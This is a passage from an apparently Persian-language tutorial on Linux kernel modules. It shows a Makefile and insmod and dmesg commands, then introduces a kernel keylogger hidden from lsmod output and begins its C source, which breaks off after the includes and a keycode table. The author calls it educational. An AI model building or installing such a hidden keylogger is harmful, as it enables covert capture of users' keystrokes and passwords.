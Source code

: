 ```makefile
obj-m += hack.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

و حالا به سادگی با دستور زیر این برنامه رو compile میکنیم

```bash
make
```

و همونطوری که بلدید با دستور insmod آن را نصب میکنیم

```bash
insmod hack.ko
```

یادتونه که با dmesg میتونستیم لاگ های مربوط به kernel module رو ببینیم

```bash
sudo dmesg | grep "hacked"
```

![StraceCommand](/assets/images/dmesg.png)


خب حالا برای درک بهتر خطری که نصب LKM توسط مهاجم رو سیستم شما میتونه براتون داشته باشه، یه KeyLogger ساده توسعه داده ایم. اما این Keylogger رو به جای USER SPACE توسط LKM به کرنل  میبریم و در اونجا اجراش میکنیم. یه کار مهم دیگه هم که اینجا انجام میدیم اینه که کاری میکنیم که این KERNEL MODULE و KEYLOGGER کار خودش رو بکنه اما تو خروجی lsmod خبری ازش نباشه.اینجاست که میگیم در لینوکس وقتی root هستیم، شبیه خداییم فقط میگم "کن فیکون" ما میتونیم اینجا حتی Process خودمون رو از لیست پراسس ها حذف کنیم، کاری کنیم که connectionمون که روی یه پورت ESTABLISH شده در خروجی netstat دیده نشه و هزار کار اینجوری :)
اما چون اینا یکم خطر ناکه ما یه keylogger ساده مینویسیم، به عنوان kernel module نصبش میکنیم و در نهایت از lsmod هم hidden میکنیمش ولی در عین حال که hidden هست keylog خودش رو انجام میده :) یادتونه باشه تاکید میکنم این فقط جنبه اموزش داره تا درک کنید اهمیت موضوع رو ...
من کد رو روی Fedora زدم :

```c
##include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/input.h>
#include <linux/keyboard.h>
#include <linux/notifier.h>
#include <linux/string.h>
#include <linux/time64.h>
#include <linux/list.h>
#include <linux/kobject.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Educational CTF Sample");
MODULE_DESCRIPTION("Hidden LKM keylogger");

static struct notifier_block keylog_nb;

// Keycode to string (from user-space code - fixed for kernel)
static const char *keycode_to_string(unsigned int code) {
  switch (code) {
    case KEY_ESC: return "ESC";
```